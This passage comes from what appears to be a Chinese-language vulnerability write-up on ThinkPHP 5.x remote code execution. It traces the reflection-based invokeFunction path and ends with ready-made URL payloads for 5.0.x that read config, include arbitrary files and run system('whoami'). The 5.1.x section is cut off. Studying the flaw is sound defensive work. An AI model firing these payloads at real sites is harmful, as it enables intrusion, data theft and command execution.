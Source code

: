 ```
 $vars = Config::get('url_param_type') ?
```

这一行将url中剩余的参数保存到了`$var`里面

![image-20210916223329421](images/15.png)

然后通过foreach将传入的危险函数逐个存储在`$args`中,最后返回给invokeMethod()

![image-20210916223358366](images/16.png)

回到invokeMethod()最后一行

```
return $reflect->invokeArgs(isset($class) ? $class : null, $args);
```

如果控制器的名字中存在 `\`或者以`\`开头，会被会被当作一个类，可以利用命名空间，实例化任意类

![image-20210916221516273](images/17.png)

这里通过反射的方式去调用invokeFunction()

```
public static function invokeFunction($function, $vars = [])
    {
        $reflect = new \ReflectionFunction($function);
        $args    = self::bindParams($reflect, $vars);

        // 记录执行信息
        self::$debug && Log::record('[ RUN ] ' . $reflect->__toString(), 'info');

        return $reflect->invokeArgs($args);
    }
```

invokeFunction()能调用动态调用函数,从而去实现RCE

![image-20210916223428364](images/18.png)

最后回到exec()看到debug出发现可以成功RCE



# payload

**5.0.x**

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

**5.1.x**
